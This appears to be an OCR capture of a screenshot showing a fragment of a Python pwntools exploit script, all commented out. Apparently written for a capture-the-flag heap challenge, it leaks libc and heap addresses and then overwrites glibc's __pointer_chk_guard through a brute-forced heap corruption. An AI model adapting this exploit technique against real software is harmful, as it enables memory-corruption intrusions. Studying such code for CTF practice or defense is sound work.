 ````python

#             def show(idx):
#                 cmd(3)
#                 p.sendlineafter("Index:",str(idx))

#             def delete(idx):
#                 cmd(4)
#                 p.sendlineafter("Index:",str(idx))

#             def ROL(content, key):
#                 tmp = bin(content)[2:].rjust(64, '0')
#                 return int(tmp[key:] + tmp[:key], 2)

#             add(0,0x460,"a"*0x40)
#             add(1,0x420,"b"*0x40)
#             add(2,0x440,"c"*0x40)
#             add(3,0x420,"d"*0x40)
#             # add(2,0x440,"c"*0x40)
#             delete(0)
#             edit_noline(0,'\x01')
#             show(0)
#             libc_base = (u64(p.recvuntil("\x7f").ljust(8,'\x00')) >> 16)-1-libc.sym['__malloc_hook']-0x10-96
#             print hex(libc_base)
#             edit_noline(0,'\x00')


#             add(4,0x470,"e"*0x40)
#             delete(2)
#             edit_noline(0,"a"*0x10)
#             show(0)
#             p.recvuntil("a"*0x10)
#             heap_addr = u64(p.recv(6).ljust(8,'\x00'))
#             print hex(heap_addr)
#             heap_base = heap_addr-0x290
#             global_max_fast = 0x1e3e78+libc_base
#             stderr_chain = 0x1e1648+libc_base

#             # ld_base = libc_base + 0x1fc000
#             # __pointer_chk_guard = ld_base + 0x32cf0
#             # print hex(__pointer_chk_guard)
#             # __pointer_chk_guard = libc_base+0x1ed5b0
#             # print hex(__pointer_chk_guard)

#             # debug(p)
#             # libc_base = 0x5b0
#             offset = 0x1 << 20
#             offset += (x+0xc) << 16
#             offset += y << 12
#             __pointer_chk_guard = libc_base + offset + 0x5b0
#             # log.success("try offset:\t" + hex(offset))


#             edit(0,p64(libc_base+0x1e1000)*2+p64(heap_addr)+p64(__pointer_chk_guard-0x20))
#             print hex(offset + 0x5b0)
#             add(5,0x480,"f"*0x40) # edit __pointer_chk_guard
#             log.success("__pointer_chk_guard offset:\t" + hex(offset + 0x5b0))
#             p.interactive()
#         except EOFError:
#             p.close()



````